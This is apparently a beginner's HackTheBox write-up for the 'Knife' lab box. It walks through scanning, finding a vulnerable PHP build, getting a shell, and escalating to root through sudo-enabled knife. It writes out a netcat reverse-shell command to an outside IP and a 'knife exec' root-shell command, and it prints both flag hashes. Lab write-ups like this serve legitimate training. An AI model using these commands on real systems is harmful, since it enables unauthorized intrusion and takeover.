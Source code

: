 This is my second box I will be attempt to pwn on HackTheBox. Let's get into it!

I did an nmap scan of the box's ip. The results showed that ports 22 and 80 were open. Specifically, port 80 was being used for an Apache web server. This is probably te best lead to go on.

        22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

I navigated to the web server and was greeted by an apparent medical site for a company called EMA. The web site was very bare bones. In fact, nothing on the web page was interactable.

I was at a lost at what to do, so I did some googling and learned about gobuster. It's a package that attempts directory traversal through a wordlist. The exact command I used was: 

                gobuster dir -u 10.10.10.242 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x txt
                
I found that /server-status was a valid directory, but I didn't have permissions to access it. Directory enumeration ended up to be a dead end.


Next, I decided to take a look at the web server using inspect element. By looking at the header of 10.10.10.242 in the network tab, I was able to see that the website was being powered by PHP/8.1.0-dev.
I searched for exploits regarding that PHP version and came across this: https://www.exploit-db.com/exploits/49933. Pretty sick find.

After running the code, I got a shell. I ran "id" and found that I was logged in as a user named "james". I ran the "ls" command and saw listed directories. I tried to navgate through the directories but that didn't work. However, other commands seemed to be working fine. I decided to use a reverse shell to see if that would allow me to traverse through directories.

I looked at this website: https://pentestbook.six2dez.com/exploitation/reverse-shells for commands that can be used to create reverse shells. I used the first command underneath the bash section: 
                rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.57 1337 >/tmp/f
and generated a reverse shell.

The reverse shell allowed me to navigate through the directories! I went to /home/james and saw a file called user.txt. That's the first flag: 17c3bb751e9961c0cbc0e1de916a4bd9

Now I had to do some privesc to get root. I tried sudo -l and saw this pop up:
User james may run the following commands on knife:
        
        (root) NOPASSWD: /usr/bin/knife

I ran knife -h to see what the available options were, but I didn't expect the help page to be so massive. A command that caught my eye was "knife exec". According to the knife documentation (https://docs.chef.io/workstation/knife_exec/), this command is able to run Ruby scripts. The syntax for running Ruby scripts is: 

                knife exec -E 'RUBY CODE'

I tried to figure out how to use Ruby to elevate privileges, but was not able to grasp most of it. I am still very new to scripting! I decided to change tactics.

I decided to go on gtfobins.github.io. This site is really nifty as it provides a massive amount of ways to use binaries to escalate priviliges. I searched up knife and found this code:

                sudo knife exec -E 'exec "/bin/sh"'
                
Since this knife binary is able to be run as sudo by james, this command makes it so that the sudo privileges are not dropped after running the command, essentially granting root access. 

After running the command, I ran "whoami" and saw that I was now the root user. I navigated to the root folder and got the root.txt hash: 449e1149cf6e5a01d86acfe53a80780d.

Overall, I can see why this box had a difficult rating of "easy." While attempting to solve the box, I got stuck in many places because I wasn't sure what exactly I was supposed to be looking for. However, now that I am familiar with the process, I can see how each of the steps from attaining a foothold to escalating privileges make a lot of sense.
